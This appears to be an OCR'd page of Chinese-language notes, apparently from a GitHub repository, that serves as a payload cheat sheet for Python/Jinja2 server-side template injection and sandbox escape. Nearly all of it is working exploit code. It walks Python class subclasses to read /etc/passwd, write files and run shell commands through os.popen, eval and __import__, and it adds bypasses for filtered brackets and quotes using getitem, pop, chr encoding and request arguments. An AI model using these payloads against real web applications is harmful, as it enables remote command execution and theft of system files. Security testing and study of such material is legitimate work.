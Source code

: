 ```python
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#命令执行
#os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
#eval,impoer等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()

#python3.7
#命令执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()
```

#### 绕过姿势

过滤 [

```python
#getitem、pop
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()
```

过滤 '

```python
#chr函数
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}#request对象
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
#命令执行
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id
```
